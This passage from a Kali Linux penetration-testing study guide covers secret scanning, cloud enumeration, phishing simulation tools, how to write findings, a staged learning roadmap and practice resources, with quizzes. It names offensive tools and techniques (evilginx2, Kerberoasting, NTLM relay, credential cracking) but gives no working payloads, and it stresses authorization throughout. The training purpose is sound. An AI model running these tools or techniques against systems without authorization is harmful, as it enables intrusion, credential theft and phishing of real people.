| [gitleaks](https://www.kali.org/tools/gitleaks/) / [trufflehog](https://www.kali.org/tools/trufflehog/) | Secret scanning across repos and history | `gitleaks detect -s ./repo` |
| [SET](https://www.kali.org/tools/set/) / [evilginx2](https://www.kali.org/tools/evilginx2/) | Phishing simulation (authorized exercises only) | `setoolkit` |

```bash
gitleaks detect -s ./repo          # secrets in the working tree and history
trufflehog filesystem ./repo       # second opinion across the filesystem
cloud_enum -k companyname          # public buckets/blobs/functions by name
```

Across all three, scope discipline is at its tightest — cloud assessments can accidentally touch shared infrastructure, secret scanning can surface live production credentials, and social engineering targets real people — so the methodology's insistence on documented, pre-approved scope is not bureaucracy here; it is the line between the profession and a crime.

```quiz
Q: Why can a tool like cloud-enum find exposed storage just by guessing names?
- [ ] Cloud storage has no authentication
- [x] Cloud resources are addressed by globally-unique, often-guessable names (a bucket at `companyname-backups.s3.amazonaws.com`), so probing predictable naming patterns surfaces publicly-exposed buckets, blobs, and functions — the cloud-era version of content discovery
- [ ] It brute-forces the cloud provider's login
- [ ] It exploits a flaw in TLS
> Because bucket and blob names live in a global namespace and follow human-predictable conventions, you can enumerate likely names and check which exist and are public. It's directory brute-forcing moved to the cloud. Once you have a foothold inside an account, frameworks like Pacu automate AWS post-exploitation — enumerating IAM permissions and finding privilege-escalation paths, the cloud analogue of BloodHound's AD path-finding.

Q: Why do gitleaks and trufflehog scan a repository's full history, not just its current files?
- [ ] History scans are faster
- [x] A credential committed and later removed still persists in git history, and a single leaked key from a commit two years ago is frequently a direct path into the cloud account — bypassing every other control — which is why the defensive rule is that secrets must never touch source control
- [ ] Current files never contain secrets
- [ ] Only old commits are readable
> Removing a secret from the working tree doesn't remove it from history; anyone who clones the repo gets every past commit. Secret scanners pattern-match known credential formats across all of history precisely because that old, forgotten key is often still live and offers a clean way in. The offense here is the direct argument for the defensive practice: keep secrets out of git entirely.

Q: What separates an authorized phishing-awareness exercise from fraud?
- [ ] The specific tool used
- [x] Authorization and nothing else — social-engineering tooling targets *people*, so it must only ever run inside an explicitly scoped, pre-approved engagement or an isolated training lab; the technique is identical, only the scope makes it legitimate
- [ ] Whether real passwords are captured
- [ ] The time of day it runs
> Social engineering carries the heaviest ethical weight because the target is a human, not a machine. The same pretext that's a sanctioned awareness test in one context is criminal fraud in another, and the distinguishing factor is documented authorization. The productive way to study it is to focus on the defensive outcome — what makes people susceptible and how training reduces it — rather than the offensive mechanics for their own sake.
```

---

## 14. Reporting: Turning Access into a Finding

A penetration test is not complete when you get a shell — it is complete when a defender can read your report and fix the problem. This is the phase that separates a hobbyist from a professional, and the technique is *communication*: translating a technical compromise into a risk a business can understand and act on. The unit of a report is the **finding**, and a complete finding has a fixed shape: the affected asset (exactly what is vulnerable), proof (a screenshot, a captured request, raw tool output demonstrating the issue is real and not a false positive), exact reproduction steps (so the defender can confirm the fix worked), the business impact (what an attacker actually achieves — "read every customer's invoice," not "IDOR in the invoice endpoint"), and the remediation (the specific fix). The screenshot and evidence tooling exists precisely because proof is load-bearing: a finding you can't prove is a finding the client can dismiss.

| Tool | Technique it serves | Lab example |
|---|---|---|
| [EyeWitness](https://www.kali.org/tools/eyewitness/) / [GoWitness](https://www.kali.org/tools/gowitness/) | Bulk-screenshot web services for visual evidence and triage | `gowitness scan file -f urls.txt` |
| [Faraday](https://www.kali.org/tools/python-faraday/) | Collaborative workspace aggregating findings across a team | `faraday-server` |

The reporting test is brutal and useful: if you cannot explain a finding clearly — the path, the proof, the impact, the fix — you probably do not understand it deeply enough yet, and the act of writing it up is where shallow findings reveal themselves. The defenders reading your report are the audience the whole engagement exists to serve, and a brilliant compromise documented badly helps no one.

```quiz
Q: When is a penetration test actually complete?
- [ ] When you get a shell on the target
- [x] When a defender can read your report and fix the problem — the engagement exists to serve the defenders, so a brilliant compromise documented badly helps no one
- [ ] When every tool in the metapackage has been run
- [ ] When you reach Domain Admin
> Getting access is the middle of the work, not the end. The deliverable is a report a defender can act on: the path, the proof, the impact, and the fix. This is the phase that separates a hobbyist from a professional, because the real technique here is communication — translating a technical compromise into a risk the business can understand and remediate.

Q: Why is impact written as "an attacker can read every customer's invoice" rather than "IDOR in the invoice endpoint"?
- [ ] Jargon is against the rules
- [x] The report's audience decides whether and how fast to fix based on what an attacker actually achieves, so impact must be stated in business terms — the technical label alone doesn't convey the risk a non-engineer has to prioritize and fund
- [ ] IDOR isn't a real vulnerability
- [ ] Invoices are always public anyway
> A finding's impact is what an attacker accomplishes, not the vulnerability class's name. "Read every customer's invoice" communicates risk to the people who prioritize remediation; "IDOR in the invoice endpoint" is precise but inert to a business reader. A complete finding pairs both — the technical detail for the engineer who fixes it, the impact for the decision-maker who funds the fix.

Q: Why is proof (a screenshot, a captured request, raw output) a load-bearing part of every finding?
- [ ] Longer reports look more thorough
- [x] A finding you can't prove is one the client can dismiss as a false positive — evidence demonstrates the issue is real and reproducible, which is exactly why bulk-screenshot and evidence tooling exists
- [ ] Proof is only needed for critical findings
- [ ] Screenshots simply make the report look professional
> Without evidence, a finding is an assertion, and an assertion is dismissible — especially since scanners produce false positives that clients have learned to distrust. Proof plus exact reproduction steps lets the defender confirm the issue and later confirm the fix worked. The reporting test is brutal but useful: if you can't clearly show the path, proof, impact, and fix, you probably don't yet understand the finding deeply enough.
```

---

## 15. A Study Roadmap

Learn Kali the way the kill chain runs, one phase deep before the next, against targets you control.

**Stage 1 — Kali and the methodology.** Get comfortable with the distribution (update it correctly, install metapackages by phase, live in snapshots) and internalize the kill chain so every tool has a home in your mental model. Build a lab: a vulnerable web app (DVWA, OWASP Juice Shop), a small Active Directory range, and a target VM or two.

**Stage 2 — Recon and enumeration.** Master `nmap` above all — service/version detection and NSE are the foundation everything else builds on — alongside `subfinder`/`amass` for discovery, `httpx` for validation, and `nuclei` for known-exposure checks. The discipline to build is *enumerate thoroughly before touching an exploit*.

**Stage 3 — Web testing.** Live in Burp Suite (or ZAP) until the proxy is second nature, add `ffuf`/`gobuster` for content discovery, and learn `sqlmap` against intentionally vulnerable apps — but learn *why* injection works by hand first, so the tool is amplifying understanding rather than substituting for it.

**Stage 4 — Credentials and Active Directory.** `hashcat`/`john` for the offline-cracking technique, then the AD stack — `netexec`, `impacket`, BloodHound, `certipy-ad` — learning each AD attack (Kerberoasting, NTLM relay, AD CS abuse) as a distinct technique against a specific protocol, with BloodHound to make path-finding concrete.

**Stage 5 — Packets, wireless, and exploitation frameworks.** `wireshark`/`tcpdump` for analysis, `bettercap`/`responder` for on-path techniques (lab-isolated, always), `aircrack-ng`/`hcxtools` for the WPA2 capture-and-offline-crack chain, and Metasploit for the exploit/payload/session model.

**Stage 6 — Reverse engineering and forensics.** `ghidra` and `gdb` for static and dynamic binary analysis, `jadx`/`apktool` for Android, `binwalk` for firmware, and the DFIR stack (`autopsy`, `sleuthkit`, `yara`) for the timeline-reconstruction techniques on the defensive side.

If you focus on twelve tools first, make them `nmap`, `burpsuite`, `ffuf`, `nuclei`, `hashcat`, `john`, `metasploit-framework`, `netexec`, `impacket`, `wireshark`, `ghidra`, and `bloodhound` — that set spans recon, web, credentials, AD, traffic, exploitation, and binaries, which is the whole kill chain.

The most important thing to understand about Kali, restated as the guide's thesis: **Kali is a workflow platform, not a magic exploit button, and the technique is what transfers — the tools are just this year's instruments for techniques that barely change.** The people who get the most out of it are not the ones who memorize the most commands; they are the ones who understand what each technique exploits, who enumerate before they attack, who validate before they report, and who can turn raw tool output into a clear, provable, actionable security story — always, only, against systems they are authorized to test.

---

## Where to Go Next

- **Practice on legal targets only:** [Hack The Box](https://www.hackthebox.com/), [TryHackMe](https://tryhackme.com/), and [PortSwigger's Web Security Academy](https://portswigger.net/web-security) (free, the best web-attack labs anywhere) give you authorized machines to run this entire toolkit against; [VulnHub](https://www.vulnhub.com/) for offline VMs.
- **Use [Kali's own docs](https://www.kali.org/docs/) and [tools listing](https://www.kali.org/tools/)** — every packaged tool has a page with usage and the upstream link; it's the fastest answer to "what does this do and what replaced it."
- **Follow one methodology source:** [HackTricks](https://book.hacktricks.wiki/) (the practitioner's enumeration encyclopedia) and the [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/) (the formal counterpart) cover the technique layer that outlives any tool.
- **Work toward one structured cert path if you want forcing pressure** — OSCP (offensive fundamentals) or PNPT — both are built around exactly the workflow this guide describes: enumerate, exploit, escalate, document.
- **Adjacent guides in this repo:** [Web & LLM Security](WEB_LLM_SECURITY_STUDY_GUIDE.md) (the defender's counterpart — read both sides), [Linux Fundamentals](LINUX_FUNDAMENTALS_STUDY_GUIDE.md) (privilege escalation is applied Linux internals), [Networking Fundamentals](NETWORKING_FUNDAMENTALS.md), and [Auth](AUTH_STUDY_GUIDE.md) (what you're attacking when you spray credentials).
